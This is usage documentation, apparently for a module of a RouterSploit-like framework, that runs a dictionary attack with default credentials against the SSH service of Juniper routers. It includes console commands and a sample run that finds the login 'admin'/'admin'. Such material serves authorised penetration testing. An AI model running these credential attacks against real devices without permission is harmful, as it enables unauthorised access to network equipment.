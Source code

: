 ## Description

Module performs dictionary attack with default credentials against Juniper Router SSH service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use creds/routers/juniper/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/juniper/ssh_default_creds
rsf (Juniper Router Default SSH Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Juniper Router Default SSH Creds) > run
[*] Running module...
[*] Target exposes SSH service
[*] Starting default credentials attack against SSH service
[*] thread-0 thread is starting...
[-] SSH Authentication Failed - Username: 'admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'admin' Password: '123456'
[-] SSH Authentication Failed - Username: 'Admin' Password: '12345'
[-] SSH Authentication Failed - Username: 'Admin' Password: '123456'
[+] SSH Authentication Successful - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 2.3932292461395264 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     22       ssh         admin        admin 

```
